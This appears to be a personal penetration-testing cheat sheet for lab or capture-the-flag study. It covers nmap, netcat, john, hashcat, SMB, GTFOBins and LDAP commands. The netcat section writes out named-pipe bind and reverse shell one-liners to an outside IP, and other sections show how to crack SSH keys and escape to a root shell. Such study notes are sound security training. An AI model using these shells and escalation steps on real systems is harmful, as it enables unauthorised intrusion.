 - [nmap](#nmap)
- [dirbuster](#dirbuster)
- [nc](#nc)
- [netstat](#netstat)
- [john](#john)
- [hashcat](#hashcat)
- [SSH](#ssh)
- [nano](#nano)
- [GTFOBins](#GTFOBins)
- [smb](#smb)
- [pretty tty](#pretty-terminal)
- [ldap](#ldap)
---

### nmap
```
-v                    # verbose(output if you found something)
-sS ip                # stealth scan for 1000 most common ports
-sT ip                # TCP connect scan most common ports
-p 90-2000            # port ranges
-A                    # agressive scan(perform OS and version checking)
-p-                   # all ports
-sS -sU -p- ip        # scan all TCP and UDP ports
-v -sS -A -T2 ip      # use T4 for internal, T2 for external
-v -sS -p- -A -T2 ip  # like above but scans all TCP ports

-script

```

### dirbuster
```
dirbuster -u url
```

### nc
```
Most ncs in the OffSec lab (like most ncs in popular linux distros) don't support -e. It simply doesn't exist.
The solution is to redirect the stdin/stdout communication through a pipe:
cd /tmp
mknod mypipe p
#for a bind shell
/bin/bash 0< /tmp/mypipe | nc -nlvp 4444 1> /tmp/mypipe
#for a reverse shell
/bin/bash 0< /tmp/mypipe | nc 192.168.1.100 4444 1> /tmp/mypipe
```

### netstat
```
netstat -tulpn # find all open ports
```

### john
```
/usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt ~/passwords.txt # passwords
# SSH KEYS
# Create encrypted zip
/usr/sbin/ssh2john ~/.ssh/id_rsa > id_rsa.hash
/usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

### hashcat
```
hashcat -m <type> hash.txt wordlist.txt
# see type https://hashcat.net/wiki/doku.php?id=example_hashes
```

### ssh
```
# keys must have good permisions
chmod 400 # r by you 
chmod 600 # rw by you
ssh -i key name@host
ssh name@host
```

### nano
```
# Ctrl + R to read files
# useful if you can run nano as root
```

### sudo
```
sudo -l # list the allowed (and forbidden) commands for the invoking user
```

### GTFOBins
```
if the sudo command output is just reading stuff try to resize the terminal so it looks 'less' like 
when outputing, then you can easily !/bin/bash
```

### smb
```
smbclient -N //ip/share
smbmap -H ip
smbmap -u user -p password -H ip
mount -t cifs //ip/share /local/mountpoint
mount -t cifs -o user=username //ip/share /local/mountpoint
```


### pretty-terminal
```
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```

### ldap
```
sudo apt install ldap-utils
ldapsearch -x -h 10.10.10.119 -p 389 -s base namingcontexts
ldapsearch -x -h 10.10.10.119 -p 389 -b “dc=lightweight,dc=htb” # use dc from last command if outputed
# now use that info for additional explotation
```
